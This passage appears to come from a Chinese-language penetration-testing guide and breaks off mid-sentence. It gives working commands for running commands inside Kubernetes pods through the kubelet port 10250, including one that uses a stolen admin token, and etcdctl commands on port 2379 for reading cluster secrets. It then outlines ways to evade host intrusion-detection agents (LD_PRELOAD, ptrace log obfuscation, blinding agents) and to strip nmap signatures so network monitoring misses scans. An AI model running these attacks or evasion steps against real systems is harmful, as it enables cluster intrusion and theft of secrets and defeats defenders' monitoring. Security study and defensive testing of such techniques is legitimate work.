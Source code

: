 1.  `curl -Gks https://host:10250/exec/{namespace}/{podname}/{containername} \`
2.  `-d 'input=1' -d 'output=1' -d 'tty=1' \`
3.  `-d 'command=whoami'`

上述命令得到 websocket 地址，连接 websocket 得到命令结果：

```bash
wscat -c "https://host:10250/websocket" --no-check
```

当获取到 admin token 后，也可以利用该服务端口在 pod 中执行命令：

```ruby
curl -k -H "Authorization: Bearer $TOKEN" https://host:10250/run/{namespace}/{podname}/{containername} -XPOST -d 'cmd=whoami'
```

### etcd 2379 端口攻击

etcd 中存放着 k8s 集群数据，如果可以成功访问该服务端口，则可以获取集群中的敏感信息，包括 k8s secrets、admin token、AKID 等。

```bash
etcdctl --endpoints=https://host:2379 ls
```

带着 cert 访问 etcd：

```bash
etcdctl --endpoints=https://host:2379 --cacert=ca.crt --key=etcd.key --cert=etcd.crt endpoint health
```

# IDS

本章介绍的 IDS 包括 HIDS 和 NIDS。

## HIDS

HIDS 涉及到如何绕过服务器上的 agent。  
业务服务器上默认都部署了 agent，如何绕过这些 agent 也是一个很大的学问。这些 agent 常常会 hook execve 来获取和判断执行的命令是否恶意。  
这里有几个思路和大家一起讨论：

-   滞空 LD\_PRELOAD 来绕过用户态的 hook，busybox 同理
-   利用代码来执行命令
-   利用 ptrace 进行日志混淆
-   关闭或致盲 agent 通信

## NIDS

NIDS 涉及到如何绕过网络设备进行扫描。  
在内网渗透中，我们会使用 nmap 去做网络探测，而 nmap 自带的一些特征会导致被安全设备识别和拦截。因此我们需要对 nmap 做一些修改，比如更改 nselib/http.lua，把 nmap 字样删除：  
![image-20201211101437662](assets/1700701638-72390f5104dfc0b001d06dcf70beba1e.png)  
tcpip.cc 更改 windows 窗口大小：  